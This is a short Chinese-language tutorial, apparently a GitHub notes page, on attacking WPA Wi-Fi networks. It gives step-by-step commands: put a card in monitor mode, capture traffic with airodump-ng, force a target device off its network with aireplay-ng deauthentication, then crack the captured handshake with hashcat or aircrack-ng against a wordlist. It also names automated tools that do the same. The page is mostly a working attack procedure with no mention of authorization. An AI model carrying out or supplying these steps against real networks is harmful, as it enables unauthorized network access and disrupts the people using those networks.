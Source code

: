 # WPA 握手包攻击

## 手动

1. 查看网络设备, 获取无线网卡名称.

    ```sh
    iwconfig
    ```

2. 开启无线网卡监听模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    开启监听模式后, 无线网卡名称发生改变. 后面会附加 `mon` (monitor), 即 `wlan0mon`.

    !!! warning
        监听模式开启后的无线网卡将无法访问 Internet, 直到监听模式被关闭.

3. 监听 Wi-Fi 信号.

    ```sh
    sudo airodump-ng wlan0mon
    ```

    当发现目标 Wi-Fi 时按 `Ctrl+C` 停止扫描. 并记录 BSSID 和 CH 两个参数.

4. 捕获指定 Wi-Fi 通信内容.

    ```sh
    sudo airodump-ng -w [.cap file] -c [CH] --bssid [BSSID] wlan0mon
    ```

5. 断开指定设备与指定 Wi-Fi 的链接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目标设备从指定 Wi-Fi 断开链接后将尝试重连, 会向路由器发送握手包. 而第 4 步将会捕获这个握手包.

6. 当第 4 步提示捕获握手包时按下 `Ctrl+C` 结束监听.

    此时, 握手包的数据已经被记录在第4步指定的 `.cap` 文件中.

7. 对 `.cap` 文件中握手包的 hash 进行破解.

    - 使用 Hashcat. (推薦)

        ```sh
        aircrack-ng [.cap file] -j [.haccpx file]       # 将 .cap 文件转为 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx file] [dict file] # 利用 hashcat 进行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng [.cap file] -w [dict file]
        ```

8. 关闭无线网卡监听模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动化

可以利用 Airgeddon/[wifite2](https://github.com/derv82/wifite2)/[WEF](https://github.com/D3Ext/WEF) 等工具来简化上面的流程.  

![Wi-Fite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
